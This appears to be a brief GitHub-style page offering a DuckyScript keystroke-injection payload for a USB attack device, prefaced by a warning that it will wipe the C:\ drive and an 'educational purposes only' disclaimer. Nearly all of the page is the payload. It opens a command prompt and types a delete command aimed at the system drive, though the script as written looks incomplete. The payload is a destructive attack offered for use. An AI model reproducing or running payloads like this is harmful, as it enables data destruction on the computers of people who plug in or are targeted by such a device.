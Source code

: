 WARNING! THIS PAYLOAD WILL WIPE YOUR C:\ DRIVE C L E A N! I AM NOT RESPONSIBLE FOR ANY DAMAGES DONE TO YOUR COMPUTER OR ANYBODY ELSE'S COMPUTER! THIS IS FOR EDUCATIONAL PURPOSES ONLY!!!

DO NOT USE THIS UNLESS YOU WANT TO FORMAT YOUR C:\ !!!!!!!!!!!!!!
```
DELAY 10000
ESCAPE
DELAY 400
CONTROL ESCAPE
DELAY 400
STRING cmd
DELAY 400
STRING del c:\
DELAY 120000
STRING exit
ENTER
```